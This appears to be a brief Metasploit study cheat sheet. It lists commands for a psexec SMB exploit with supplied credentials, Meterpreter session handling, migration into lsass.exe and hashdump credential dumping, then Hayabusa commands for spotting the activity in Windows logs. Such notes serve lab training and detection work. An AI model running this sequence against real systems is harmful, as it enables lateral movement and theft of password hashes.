# Metasploit Framework Notes

```
msfconsole -q
show exploits
search type:expliot psexec
info exploit/windows/smb/psexec
use exploit/windows/smb/psexec
set PAYLOAD
show options
set RHOSTS <IP>
set SMBUser <user>
set SMBPASS <pass>
set LHOST <IP>
show options
exploit
```

session management

```
background
sessions
sessions 1
sysinfo
execute -if systeminfo
getuid
ps
getpid
```

dumping hashes with msf

```
hashid
```

process migration

```
getpid
ps
migrate -N vmtoolsd.exe
sysinfo
getpid
```

process migration for privesc

```
migrate -N lsass.exe
hashdump
```

analyzing this on the host with hayabusa

```
.\hayabusa csv-timeline -o metasploit-psexec.csv -l
Import-Csv -Path .\metasploit-psexec.csv | Where-Object -Property Level -Cin "crit","high" | Select-Object Timestamp,Level,RuleTitle
```

